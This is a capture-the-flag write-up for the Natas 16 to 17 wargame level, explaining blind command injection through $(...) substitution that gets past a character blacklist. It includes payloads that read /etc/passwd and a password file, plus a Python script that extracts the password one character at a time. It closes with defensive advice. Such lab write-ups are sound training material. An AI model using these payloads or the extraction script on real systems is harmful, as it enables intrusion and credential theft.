


# Natas Level 16 → 17

**Vulnerability:** Blind Command Injection via Command Substitution (`$(...)`)
**Difficulty:** Medium
**Tools Used:** Browser, Python Requests, Source Code Review
**OWASP Category:** A03:2021 – Injection

---

## What the level gives you

The application provides a search feature that allows users to look up words inside a dictionary file.

A source code link is available. Compared to the previous level, additional input filtering has been introduced to block several characters commonly used in command injection attacks.

The objective is to retrieve the password for Natas17 despite these new restrictions.

---

## Source code analysis

The application accepts user input through the `needle` parameter:

```php
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}
```

The input is filtered before execution:

```php
if(preg_match('/[;|&`]/',$key)) {
    print "Input contains an illegal character!";
}

// Attempts to block:
// ;
// |
// &
// `
```

If the filter passes, the application executes a shell command:

```php
passthru("grep -i \"$key\" dictionary.txt");

// User-controlled input reaches the shell
// The blacklist only blocks ; | & and backticks
// Command substitution using $(...) remains available
// This enables command execution despite the filter
```

The vulnerability exists because the blacklist is incomplete. While several dangerous shell characters are blocked, command substitution syntax remains accessible.

As a result, arbitrary commands can still be executed through:

```bash
$(command)
```

creating a blind command injection vulnerability.

---

## Approach

My first observation was that the application still used `passthru()` with user-controlled input.

The filter initially appeared to prevent the command injection technique used in the previous level. However, after reviewing the source code, I noticed that only a small subset of shell metacharacters was blocked.

The turning point was recognizing that command substitution syntax using `$()` was not filtered.

I first tested whether nested commands were being executed successfully. Once command substitution was confirmed, I needed a way to extract information despite the fact that command output was not displayed directly.

Instead of reading command output directly, I used the application's search functionality as a boolean oracle. If a guessed password prefix was correct, a known dictionary word disappeared from the results. If the guess was incorrect, the word remained visible.

Because the password contained 32 characters, automation was necessary.

---

## Exploitation

The first step was verifying that command substitution was still possible.

Example payload:

```http
GET /?needle=$(grep%20test%20/etc/passwd)

# Executes a nested grep command
# Confirms that $(...) is evaluated by the shell
```

The application's response differed from a normal search request, confirming command execution.

To test password prefixes, the following technique was used:

```text
$(grep ^a /etc/natas_webpass/natas17)apple
```

Explanation:

```bash
grep ^a /etc/natas_webpass/natas17

# Returns the password only if it begins with "a"
```

If the condition was true, the resulting search term caused the dictionary word:

```text
apple
```

to disappear from the output.

If the condition was false, `apple` remained visible.

This behavior provided a reliable true/false condition for password extraction.

The process was automated using Python.

```python
import requests

URL = "http://natas16.natas.labs.overthewire.org/"
AUTH = ("natas16", "PASSWORD")

# Candidate character set
CHARSET = (
    "abcdefghijklmnopqrstuvwxyz"
    "ABCDEFGHIJKLMNOPQRSTUVWXYZ"
    "0123456789"
)

password = ""

session = requests.Session()
session.auth = AUTH

while len(password) < 32:

    # Test every possible next character
    for char in CHARSET:

        candidate = password + char

        payload = (
            f'$(grep ^{candidate} '
            f'/etc/natas_webpass/natas17)apple'
        )

        response = session.get(
            URL,
            params={"needle": payload},
            timeout=10
        )

        # If "apple" disappears from the response,
        # the current prefix is correct
        if "apple" not in response.text:
            password += char
            print(password)
            break

print("Password:", password)
```

The script recovered the password one character at a time until the complete Natas17 password was obtained.

---

## Screenshot

### Source code vulnerability

Shows the blacklist filter and vulnerable `passthru()` call.



### Password extraction

Shows automated password recovery and final credential extraction.



---

## Real-world relevance

This vulnerability falls under OWASP A03:2021 – Injection. Blacklist-based filtering is a common anti-pattern because developers frequently block a few dangerous characters while overlooking alternative shell features.

Blind command injection is often encountered during penetration tests against monitoring systems, administrative portals, automation platforms, and legacy applications that execute operating system commands using user-supplied input.

Attackers commonly rely on indirect indicators such as timing differences, response changes, or missing content to extract sensitive information when command output is not directly visible.

---

## Defender's perspective

The safest approach is to avoid shell execution entirely whenever possible.

If operating system commands must be executed, developers should use safe APIs, apply strict allowlists, and sanitize arguments using functions such as `escapeshellarg()`.

Additionally, WAF signatures can detect command substitution patterns such as `$(`, but secure coding practices remain the primary defense against command injection vulnerabilities.

---

## What I'd do differently

After confirming command substitution, I would immediately automate the extraction process rather than performing additional manual testing. The vulnerability naturally lends itself to scripted enumeration and automation significantly reduces extraction time.
